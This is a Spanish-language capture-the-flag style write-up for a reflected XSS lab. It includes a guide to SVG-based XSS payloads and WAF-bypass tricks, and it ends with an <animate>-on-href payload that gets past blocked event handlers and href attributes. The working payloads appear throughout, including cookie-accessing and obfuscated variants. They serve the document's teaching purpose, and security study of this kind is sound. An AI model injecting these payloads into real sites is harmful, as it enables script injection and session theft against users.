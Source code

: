 Lab: Reflected XSS with event handlers and href attributes blocked


This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor `href` attributes are blocked.

To solve the lab, perform a cross-site scripting attack that injects a vector that, when clicked, calls the `alert` function.

Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:

```html
<a href="">Click me</a>
```
---


Como se trata de un contexto HTML entre etiquetas, sabemos que el parámetro de búsqueda refleja el payload que se le inyecte:
![image](https://github.com/user-attachments/assets/6d1bb63e-6238-4146-b8b0-6707ef8d6611)

Tembién sabemos que tenemos un waf que bloquea la mayoría de las etiquetas:
![image](https://github.com/user-attachments/assets/d34ec8c0-b27e-4ab5-8fb0-203c84c0e680)

Por lo que dice el ejercicio, el waf tiene una lista blanca de etiquetas, entre las cuales, está permitida al etiqueta `<a>`:
![image](https://github.com/user-attachments/assets/f274c733-f853-4e80-b3f3-0bb47a9f0cec)

Sin embargo si queremos inyectar la siguiente etiqueta:
```html
<a href="javascript:alert(1)">Click me</a>
```
Vemos que el atributo `href` está bloqueado:
![image](https://github.com/user-attachments/assets/9887dbca-5f68-4839-9f95-cfb9a2fc68f9)

Procedemos a realizar un Sniper Attack con Burpsuite Intruder para averiguar las tags permitidas:
![image](https://github.com/user-attachments/assets/851d9069-0f80-4489-8130-653c29d5a86a)

Hay que tener especial atención al `<svg>`, ya que:

- Es comúnmente usado en ataques XSS modernos.

- Se puede usar junto con eventos como `onload`, por ejemplo:
  ```html
  <svg onload="alert(1)">
  ```
Probamos el payload pero vemos que el atributo onload es bloqueado:
![image](https://github.com/user-attachments/assets/776bb23a-6f73-4202-9568-c9593f3dd206)


---

# 🧠 Guía Completa de XSS usando `<svg>`

## 🧩 ¿Por qué `<svg>` es útil para XSS?

`<svg>` es una etiqueta válida de HTML5 usada para gráficos vectoriales.  
Lo interesante es que el navegador la permite aunque el WAF (Firewall) bloquee etiquetas clásicas como `<script>`, `<img>`, etc.

Además, **dentro de un `<svg>` podés insertar eventos de JavaScript**, como `onload`, `onmouseover`, etc., lo que la hace una excelente herramienta para bypass.

---

## 🧪 Casos básicos de XSS con `<svg>`

### 1. 🧨 Payload mínimo funcional:

```html
<svg onload=alert(1)>
```

- `onload`: se ejecuta apenas el navegador carga el SVG.

---

### 2. 🔥 Payload dentro de una URL (reflected XSS):

```url
?search=<svg%20onload=alert(1)>
```

- `%20` es espacio, el navegador lo decodifica al mostrarlo.

---

### 3. 🛠️ Payload más elaborado con atributos adicionales:

```html
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)">
```

- `xmlns`: hace que el SVG sea completamente válido.
- `document.domain`: otra forma de probar que se ejecuta JS.

---

## 💡 ¿Qué eventos podés usar?

- `onload` ✅ → apenas se carga.
- `onmouseover` ✅ → cuando pasás el mouse.
- `onfocus` ✅ → cuando hacés foco (útil con `tabindex`).
- `onclick` ✅ → cuando hacés click.

```html
<svg onclick=alert(1)>Click me</svg>
```

---

## 🎯 Casos reales de bypass con `<svg>`

### ✅ Bypass cuando `<script>` está bloqueado:

```html
<svg/onload=alert(1)>
```

### ✅ Payload sin paréntesis:

```html
<svg onload=confirm`${document.cookie}`>
```

### ✅ Payload ofuscado:

```html
<svg %0Aonload=alert(1)>
```

---

## 💡 Pro Tips

| Caso | Técnica |
|------|---------|
| WAF bloquea `<script>` | Usá `<svg onload=...>` |
| WAF bloquea paréntesis | Usá template strings: \`${...}\` |
| WAF bloquea `"`, `'` | Usá backticks o sin comillas |
| Quieren que se dispare solo | `onload` o `autofocus + #hash` |

---

## 🧪 Práctica rápida

```url
?search=<svg%20onload=alert(document.domain)>
```

```url
?search=<svg%20id=x%20onfocus=alert(1)%20tabindex=1>#x
```

---

## 🧱 Si tenés un WAF muy fuerte...

```html
<svg><script>alert(1)</script></svg>
```

```html
<svg><a xlink:href="javascript:alert(1)">CLICK</a></svg>
```

> Ojo: no todos los navegadores modernos permiten `javascript:` dentro de SVGs hoy.

---




## 📦 Payload SVG final

Nosotros sabemos que con `<svg>` podemos insertar etiquetas como la `<a>`. El ejercicio debe contener un texto que diga `Click me` pero no podemos poner lo siguiente:
```html
<svg><a>Click me</a></svg>
```
Como sabemos, para insertar texto dentro de un `<svg>`, necesitamos utilizar la etiqueta `<text>`:
```html
<svg><a><text x=20 y=20>Click me</text></a></svg>
```

```html
<svg>
  <a>
    <animate attributeName=href values=javascript:alert(1) />
    <text x=20 y=20>Click me</text>
  </a>
</svg>
```

---

## 🔍 Explicación Paso a Paso

### 1. `<svg>`

- Contenedor SVG (Scalable Vector Graphics) donde se puede incluir código gráfico, pero también etiquetas como `<a>`, `<text>`, y `<animate>`.

### 2. `<a>`

- Representa un enlace.
- Su atributo `href` se puede modificar dinámicamente.

### 3. `<animate>`

- Permite modificar atributos con animaciones.
- Aquí, se usa para modificar el `href` del enlace a `javascript:alert(1)`.

```html
<animate attributeName=href values=javascript:alert(1) />
```

- **`attributeName=href`**: especifica que se animará el atributo `href`.
- **`values=javascript:alert(1)`**: el valor que tomará el atributo.

### 4. `<text>`

- Muestra el texto `"Click me"` en la pantalla.
- Coordenadas `x=20` y `y=20` posicionan el texto dentro del SVG.

```html
<text x=20 y=20>Click me</text>
```

### Resultado:

- Cuando el usuario hace clic en el texto "Click me", se ejecuta `javascript:alert(1)`.

---

## ⚠️ Consideraciones de Seguridad

- Aunque atributos peligrosos como `onload` o `href` se filtren, se pueden establecer indirectamente con `<animate>`.
- Este método puede eludir muchos filtros WAFs y validadores mal implementados.

---

## 📚 Recursos Adicionales

- [XSS fun with animated SVG - ISEC](https://blog.isec.pl/xss-fun-with-animated-svg/)
- [SVG animate XSS vector - PortSwigger Research](https://portswigger.net/research/svg-animate-xss-vector)




